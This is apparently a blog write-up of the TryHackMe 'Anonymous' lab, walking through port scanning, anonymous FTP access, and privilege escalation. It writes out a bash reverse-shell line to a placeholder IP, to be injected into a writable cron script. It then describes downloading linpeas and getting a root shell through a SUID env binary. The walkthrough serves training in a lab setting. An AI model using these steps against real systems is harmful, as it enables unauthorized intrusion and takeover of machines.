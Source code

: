 ```yaml
---
layout: post
title: THM Anonymous Write-up
excerpt_separator: <!--more-->
---
```

<img src="/img/anon-img/0.header-image.png">
<!--more-->
https://tryhackme.com/room/anonymous
<p><b>Question 1. Enumerate the machine. How many ports are open?</b></p>
<p><b>Question 2. What service is running on port 21?</b></p>
<p><b>Question 3. What service is running on ports 139 and 445?</b></p>
<p>Let’s start off by  running a basic nmap scan for the top 1000 ports</p>
<p>We have ports 21,22,139 and 445 open. Let enumerate these further. </p>
<img src="/img/anon-img/1.basic_nmap_scan.png">
<p> Now let's check all 65k ports by using the -p- flag just to make sure there aren't anymore open ports. This will take a few minutes. While this is working let’s check out the FTP service on port 21.   
</p>
<img src="/img/anon-img/3.nmap_scan_all_ports.png">
<p>We’re able to login to the FTP service with anonymous:anonymous 
Let’s enumerate the file system.  </p>
<img src="/img/anon-img/4.Ftp_anon_login.png">
<p> There’s a dir named “scripts”  </p>
<img src="/img/anon-img/5.FTP_scrips_dir.png">
<p>There’s four files here. Let’s download these using the get command.  </p>
<img src="/img/anon-img/6.get_ftp_files.png">
<p>We’ll need to review these scripts, but first let’s check on our nmap scan.
Looks like these are the only open ports. Now you can answer question 1,2 and 3.  </p>
<img src="/img/anon-img/7.nmap_all_ports_scan_results..png">
<p><b>Questions 4. There's a share on the user's computer.  What's it called?</b></p>
<p>Let’s look at the to_do.txt file we download. Nothing helpful here.Let’s look at the other files. </p>
<img src="/img/anon-img/8.to_do.txt_output.png">
<p> Wow! There’s a bash script that’s probably running on a cron job, the only issue is we don’t know how often it runs. If we’re lucky it runs every few minutes. The good news is we have write  permissions, so It's definitely worth attempting  to gain a shell from it.  </p>
<img src="/img/anon-img/9.clean.sh_output.png">
<p>Let’s make a directory on our local machine name ftp and  mount the FTP  directory  using curlftpfs </p>
<img src="/img/anon-img/10.mkdir-ftp-and-mount.png">
<p>Cd into the FTP directory and open the clean.sh file in a text editor.  </p>
<img src="/img/anon-img/11.cd-gedit-file.png">
<img src="/img/anon-img/12.clean.sh-before-edit.png">
<p>Let’s add this bash shell command (bash -i >& /dev/tcp/your_ip_here/9001 0>&1) to the end of the script like below.  Don’t save  it yet we need to set up a listener to catch this shell on our local machine first.  </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>Set up a netcat listener on our local machine. </p>
<img src="/img/anon-img/14.setup-nc-listener.png">
<p>  Now save this file. </p>
<img src="/img/anon-img/13.shell-command-added-to-script.png">
<p>And we have a reverse shell. Let’s see if we can find the answer to question 4. </p>
<img src="/img/anon-img/15.rev-shell.png">
<p>Here we have the user.txt file and the directory of the FTP share we mounted. Let’s cat the user.txt  file, answer question 4 and 5. </p>
<img src="/img/anon-img/16.-user.txt.png">
<p>Now let’s start enumerating and try to gain a root shell. 
We can’t write to the passwd or shadow file, but it appears that we’re the only other useful user beside root so no lateral I don’t think we’ll need a lateral movement. Keep enumerating.  </p>
<img src="/img/anon-img/17.passwd-shadow-files.png">
<p>Nothing's standing out. Let’s try running linpeas. On your local host setup a python simple http server to host the linepeas  file.  </p>
<img src="/img/anon-img/18.pythong-simple-server.png">
<p>Back in your shell, if you're not already, navigate to your home folder and issue a wget command to download the linepease file. </p>
<img src="/img/anon-img/19.download-linpease.png">
<p>Make the file  executable  and run it like this ./linpease.sh </p>
<img src="/img/anon-img/20.linpease-running.png">
<p>This is interesting, let's check GTFObins. https://gtfobins.github.io/gtfobins/env/  </p>
<img src="/img/anon-img/21. linpease-env-binary.png">
<img src="/img/anon-img/22.GTFObins-on-the-env-binary.png">
<p> When we execute the env binary we can call /bin/sh but have to add -p to maintain permissions - in this case root and voila, we have root </p>
<img src="/img/anon-img/23.root-shell.png">
<p>Let's grab the root flag. </p>
<img src="/img/anon-img/24.root.txt.png">




